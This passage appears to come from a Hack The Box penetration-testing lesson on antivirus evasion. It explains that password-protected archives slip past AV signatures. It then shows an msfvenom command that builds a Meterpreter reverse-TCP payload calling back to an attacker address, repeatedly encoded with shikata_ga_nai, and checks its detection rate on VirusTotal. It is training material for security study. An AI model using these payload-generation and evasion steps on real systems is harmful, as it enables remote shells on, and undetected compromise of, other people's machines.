 ## Archives

Archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common anti-virus signatures today. However, the downside of this process is that they will be raised as notifications in the AV alarm dashboard as being unable to be scanned due to being locked with a password. An administrator can choose to manually inspect these archives to determine if they are malicious or not.

#### Generating Payload

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/test.js
```

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ cat test.js

�+n"����t$�G4ɱ1zz��j�V6����ic��o�Bs>��Z*�����9vt��%��1�
<...SNIP...>
�Qa*���޴��RW�%Š.\�=;.l�T���XF���T��
```

If we check against VirusTotal to get a detection baseline from the payload we generated, the results will be the following.

#### VirusTotal

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ msf-virustotal -k <API key> -f test.js 

[*] WARNING: When you upload or otherwise submit content, you give VirusTotal
[*] (and those we work with) a worldwide, royalty free, irrevocable and transferable
[*] licence to use, edit, host, store, reproduce, modify, create derivative works,
[*] communicate, publish, publicly perform, publicly display and distribute such
[*] content. To read the complete Terms of Service for VirusTotal, please go to the
[*] following link:
[*] https://www.virustotal.com/en/about/terms-of-service/
[*] 
[*] If you prefer your own API key, you may obtain one at VirusTotal.

[*] Enter 'Y' to acknowledge: Y


[*] Using API key: <API key>
[*] Please wait while I upload test.js...
[*] VirusTotal: Scan request successfully queued, come back later for the report
[*] Sample MD5 hash    : 35e7687f0793dc3e048d557feeaf615a
[*] Sample SHA1 hash   : f2f1c4051d8e71df0741b40e4d91622c4fd27309
[*] Sample SHA256 hash : 08799c1b83de42ed43d86247ebb21cca95b100f6a45644e99b339422b7b44105
[*] Analysis link: https://www.virustotal.com/gui/file/<SNIP>/detection/f-<SNIP>-1652167047
[*] Requesting the report...
[*] Received code 0. Waiting for another 60 seconds...
[*] Analysis Report: test.js (11 / 59): <...SNIP...>
```